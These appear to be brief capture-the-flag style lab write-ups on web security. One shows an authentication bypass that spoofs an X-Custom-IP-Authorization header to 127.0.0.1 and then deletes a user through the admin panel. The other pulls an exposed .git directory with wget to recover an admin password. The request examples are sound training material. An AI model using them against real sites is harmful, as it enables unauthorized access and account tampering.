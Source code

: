 

# Lab: Authentication bypass via information disclosure

Should repeat one of the login packets but instead of GET use TRACE to get the http reponse headers used in autentication. We then get:

```http
X-Custom-IP-Authorization: 84.109.20.63
```
This is our extenal IP - we need to verify ourselves as Admmins, so lets change this to localhost

Now we can use this autherization header to permit to enter the admin panel:
```http
X-Custom-IP-Authorization: 127.0.0.1
```

Enter the admin with this login request:
```http
POST /login HTTP/1.1
...
X-Custom-IP-Authorization: 127.0.0.1

csrf=f9rivO9QlHCwOVBBVmjTuQrJSYFadDXO&username=admin&password=1234
```

Now we get the admin panel in order to delete carlos with this request:
```http
GET /admin/delete?username=carlos HTTP/1.1
...
X-Custom-IP-Authorization: 127.0.0.1
```


# Lab: Information disclosure in version control history

First we downlaod the full git repository using the command:

```http
wget -r TARGET.COM/.git
```

Then use git show to see the changes, where there is a commit that deleted the admin password - with the password
